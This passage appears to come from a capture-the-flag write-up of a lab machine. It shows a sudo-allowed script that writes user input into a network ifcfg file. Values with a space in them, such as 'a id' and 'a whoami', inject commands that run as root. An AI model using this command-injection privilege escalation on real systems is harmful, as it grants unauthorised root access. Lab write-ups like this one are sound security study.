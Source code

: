     [guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
    cat /etc/sysconfig/network-scripts/ifcfg-guly
    DEVICE=guly0
    ONBOOT=no
    NM_CONTROLLED=no
    NAME=0xdf
    PROXY_METHOD=notamethod
    BROWSER_ONLY=yes
    BOOTPROTO=pineapple



I ran it again with some funny answers, and got some weird
`command not found` messages:



    [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
    interface NAME:
    0xdf
    interface PROXY_METHOD:
    not a method
    interface BROWSER_ONLY:
    no thanks
    interface BOOTPROTO:
    yes
    /etc/sysconfig/network-scripts/ifcfg-guly: line 5: a: command not found
    /etc/sysconfig/network-scripts/ifcfg-guly: line 6: thanks: command not found
    /etc/sysconfig/network-scripts/ifcfg-guly: line 5: a: command not found
    /etc/sysconfig/network-scripts/ifcfg-guly: line 6: thanks: command not found
    ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.



Twice it is trying to run `a` and `thanks`. Those are words in my input.
I'll try with commands:



    [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
    interface NAME:
    a id
    interface PROXY_METHOD:
    a ls /root/
    interface BROWSER_ONLY:
    a pwd
    interface BOOTPROTO:
    a whoami
    uid=0(root) gid=0(root) groups=0(root)
    root.txt
    /etc/sysconfig/network-scripts
    root
    uid=0(root) gid=0(root) groups=0(root)
    root.txt
    /etc/sysconfig/network-scripts
    root
    ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
